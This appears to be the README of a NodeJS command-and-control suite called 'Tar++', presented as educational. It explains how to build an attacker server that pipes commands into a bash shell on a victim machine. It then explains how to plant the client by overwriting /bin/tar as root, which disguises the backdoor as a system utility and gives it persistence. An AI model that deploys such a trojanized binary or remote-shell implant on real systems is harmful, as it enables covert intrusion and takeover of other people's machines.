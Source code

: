 # Tar++; Command and Control Suite
By Thomas Williams

## Purpose
This project aims to provide a command and control client for educational
purposes satisfying the following goals:
1. Provide remote code execution
2. Persistence across reboots
3. Easy configuration
4. Authenticate communication
5. Hide the vulnerability

## Plan
This codebase will consist of 2 main parts:
1. An agent which runs on the target machine to accept and execute commands
2. An attacker server which sends commands to clients

## Node
For simplicity in web communication, this project will be NodeJS based.
Webpack will be used to transpile the client into a single file which
can be easily installed.

## Prerequisites
This suite requires `node` and `npm` on the server, and requires `node` to be
installed on the target system. 

To install server dependencies on Kali linux (and other `apt` distros), run
```
sudo apt install nodejs npm
```

To install client/target dependencies (on CentOS), run as root:
```
yum install -y nodejs
```

## Configuration
To begin configuration, run the `build.sh` script. This will create
`config.json` which then can be modified to contain the server IP
and port information. This build script will also create public
and private keys which will be used in the compilation process.

## Building
To build the server and client after configuration, run
```
npm run build
```
This populates the `./build` directory with client and server files.

## Starting the Server
The server can be run with
```
node ./build/server.js
```
The server will listen for incoming client requests, and upon a connection,
sends all input to a bash shell on the client.

## Deploying the Client
Copy the `client.js` file to the target machine, and with the `client.js`
file in the current directory, run as root:
```
cp -f /bin/tar /bin/tar2
cp client.js /bin/tar
```

To immediately start a connection to the server, run (as root or user)
```
tar
```

## Authentication and Encryption
The connection between client is secured by both assymetric and symmetric 
cryptography. When clients first connect to the server, they encrypt a 
new symmetric key with the server's public key. All future communication
is done using the symmetric key. Without the symmetric key, an outsider
cannot interpret or create new messages. Without the server's private key,
an outsider cannot decrypt and acquire the symmetric key. Therefore the 
client-server connection is reasonably secure against outsider adversaries.
